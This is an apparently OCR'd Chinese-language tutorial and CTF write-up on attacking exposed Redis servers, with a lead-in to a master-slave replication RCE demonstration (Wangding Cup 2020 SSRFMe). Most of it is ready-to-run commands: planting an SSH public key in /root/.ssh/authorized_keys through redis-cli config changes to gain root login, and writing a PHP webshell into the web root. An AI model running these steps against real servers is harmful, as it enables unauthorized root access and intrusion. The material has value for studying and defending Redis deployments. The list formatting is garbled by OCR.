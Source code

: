 ##### 0x01:写 ssh-keygen 公钥登录服务器

这种利用方式是危害最大的，因为可以使用root身份登录redis服务写入ssh公钥实现使用ssh免密登录受害主机。

> 
SSH提供两种登录验证方式，一种是口令验证也就是账号密码登录，另一种是密钥验证。


密钥验证大致过程如下：

但要利用需要满足两个条件
1.  redis以root身份运行 1.  服务器开放了SSH服务，而且允许使用密钥登录 
在kail中先开启redis服务，然后执行`mkdir /root/.ssh`命令，创建ssh公钥存放目录<br/>  

<br/> 在生成公钥和私钥的过程中，密码设置为空
1.  `ssh-keygen -t rsa` 
将生成的公钥保存为Sn0w.txt文件
1.  `cd /root/.ssh/` 1.  `(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") &gt; Sn0w.txt` 
<br/> 连接上目标机器的redis服务，将文件写入
1.  `cat Sn0w.txt | redis-cli -h 192.168.66.132 -x set crack` 
<br/> 远程连接更改redis备份路径为ssh公钥存放目录<br/>  

<br/> 设置上传公钥的备份文件名字为authorized_keys<br/>  

<br/> 检查是否更改成功，保存退出<br/>  

<br/> 具体命令：
1.  `config get dir #检查当前保存路径` 1.  `config get dbfilename #检查保存文件名` 1.  `config set dir /root/.ssh/ #设置保存路径` 1.  `config set dbfilename authorized_keys #设置保存文件名` 1.  `save #进行保存` 
下面就可以进行SSH连接了
1.  `ssh -i id_rsa root@192.168.66.132` 
<br/> 登陆成功

##### 0x02:通过Redis写webshell

需满足的前提条件：
1.  知道网站绝对路径，需要增删改查权限 1.  root启动redis 1.  redis弱密码或者无密码 1.  `写webshell` 1.  `#1\设置要写入shell的路径` 1.  `config set dir /var/www/html` 1.  `#2\设置文件名` 1.  `config set dbfilename shell.php` 1.  `#3\写入phpinfo()到x键` 1.  `set x "\n&lt;?php phpinfo(); ?&gt;\n"` 1.  `save` 
<br/> 写入成功

##### 0x04:Redis主从复制getshell

> 
Redis如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。<br/> 在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上，然后在从机上加载so文件，我们就可以执行拓展的新命令了。


前提条件：
1.  Redis 版本(4.x~5.0.5)（可以编译恶意.so文件） 1.  redis弱密码或者无密码 1.  root启动redis 
这里就以[网鼎杯 2020 玄武组]SSRFMe来演示一下，前面就不再叙述了<br/>  

<br/> redis的密码是root,遇到ssrf+redis getshell这种的，考察一般都是以下几种姿势：

这道题看师傅们的WP，用的方法都是主从复制RCE

---
